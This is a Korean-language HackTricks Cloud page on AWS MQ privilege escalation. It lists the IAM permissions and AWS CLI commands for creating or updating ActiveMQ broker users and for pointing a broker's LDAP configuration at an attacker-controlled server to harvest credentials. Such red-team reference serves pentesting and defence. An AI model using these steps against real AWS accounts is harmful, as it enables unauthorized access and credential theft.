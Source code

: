 # AWS - MQ 권한 상승

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## MQ

MQ에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

해당 권한을 가지고 있으면 **ActimeMQ 브로커에 새 사용자를 생성**할 수 있습니다 (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**잠재적 영향:** ActiveMQ를 통해 민감한 정보에 액세스

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

해당 권한으로 **ActimeMQ 브로커에 새 사용자를 생성**할 수 있습니다 (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적인 영향:** ActiveMQ를 통해 민감한 정보에 액세스

### `mq:ListBrokers`, `mq:UpdateBroker`

브로커가 **ActiveMQ**에서 **LDAP**를 사용하여 권한 부여하는 경우, **공격자가 제어하는 LDAP 서버로 구성을 변경**할 수 있습니다. 이렇게 하면 공격자가 **LDAP를 통해 전송되는 모든 자격 증명을 탈취**할 수 있습니다.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
만약 ActiveMQ에서 사용된 원본 자격 증명을 찾을 수 있다면 MitM을 수행하여 자격 증명을 도난하고, 해당 자격 증명을 원본 서버에서 사용하여 응답을 보낼 수 있습니다 (도난한 자격 증명을 재사용하여 이를 수행할 수도 있습니다).

**잠재적인 영향:** ActiveMQ 자격 증명 도난
